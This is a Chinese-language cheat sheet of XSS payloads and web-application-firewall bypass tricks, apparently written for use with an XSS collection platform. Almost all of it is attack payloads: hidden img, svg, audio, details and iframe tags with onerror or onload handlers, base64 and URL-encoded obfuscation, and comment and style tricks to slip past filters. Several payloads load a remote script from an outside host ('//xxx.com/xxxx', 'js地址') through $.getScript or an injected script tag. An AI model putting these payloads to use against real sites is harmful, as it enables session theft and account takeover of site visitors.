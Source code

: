 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
7.如果//alert不行可以试试//prompt
```

### 常用

- 变形
  ```
  #//alert 或者prompt -> 网站有jq可以使用: $.getScript("js地址")
                         -> createElement('script');body.appendChild(s);s.src='js地址'>
                         -> eval(atob('YWxlcnQoJzEyMycp')) #base64接码：alert('123')
  ```
-  无script标签

  ```
  ##// <BODY/ONLOAD=alert(1)>   
  ##// <SVG/ONLOAD=alert(1) style=display:none>
  ##// <audio src=x onerror=alert("xss");>
  ##// <video style=display:none><source onerror="alert(1)">
  ```

- img（不显示图片）

  ```
  ##// <img/style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
  注：YWxlcnQoJzEyMycp => 弹窗123
  ##// <img/src=# style=display:none onerror=$.getScript("js地址")>
  ##// <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
  ```

- iframe data:text/html  # 目前只能测试能在iframe上使用

  ```
  ##// <iframe/style="display:none" src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">##</iframe>
注：%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E为url编码 -> ## 弹窗1
  ```

- details 详细标签 #可能会把后面的数据隐藏

  ```
  ##// <details/open/ontoggle=alert(1) style=display:none>
  ```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```

###  bypass 常规waf(x=alert(1))

```
冷门标签绕过：

##// `!-- --`绕过:
##// `<!--<img src="--><img src onerror=x//">`

##// `<style><img src="</style><img src onerror=x//">`
```

### 绕过<script src>的正则

```
##// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```

### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
##// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



